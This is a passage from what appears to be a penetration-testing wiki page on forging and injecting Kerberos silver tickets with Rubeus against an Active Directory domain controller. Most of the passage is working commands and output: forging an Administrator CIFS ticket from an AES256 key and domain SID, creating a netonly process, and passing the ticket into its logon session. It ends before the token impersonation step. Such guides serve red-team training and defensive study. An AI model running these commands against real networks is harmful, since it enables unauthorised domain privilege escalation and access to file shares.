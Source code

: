 Some examples commands which can now be performed on the domain controller

## Rubeus (Method-02)

Using Rubeus we can either forge the silver ticket and load into a separate session (cleaner) or forge the ticket and inject into the current process (may cause issues).

**Forge and inject directly into the current process**

{% code overflow="wrap" %}
```powershell
Rubeus.exe silver /service:cifs/dc01.security.local /aes256:f9647c8dba66c6576057167ab18d93582ea7fa1a8fd9b03b79d7d173644ff2e4 /user:Administrator /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /nowrap /ptt
```
{% endcode %}

**Forge and inject into new process**

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># Forge silver ticket
</strong><strong>Rubeus.exe silver /service:cifs/dc01.security.local /aes256:f9647c8dba66c6576057167ab18d93582ea7fa1a8fd9b03b79d7d173644ff2e4 /user:Administrator /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /nowrap
</strong></code></pre>

{% code title="Input" overflow="wrap" %}
```bash
# Createnetonly process, username and password can be anything
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:Security.local /username:Administrator /password:NotRealPass
```
{% endcode %}

{% code title="Output" %}
```
[*] Action: Create Process (/netonly)
[*] Using Security.local\Administrator:NotRealPass

[*] Showing process : False
[*] Username        : Administrator
[*] Domain          : Security.local
[*] Password        : NotRealPass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2080
[+] LUID            : 0x12e0ab8
```
{% endcode %}

Take note of the LUID value in the output above. We need to now inject the silver ticket we forged earlier into the new LUID session.

```bash
Rubeus.exe ptt /luid:0x12e0ab8 /ticket:doIFuj[...snip...]lDLklP
```

After the ticket has been imported into the new LUID session we then need to impersonate the process token using the `ProcessID` from the output above (2080).
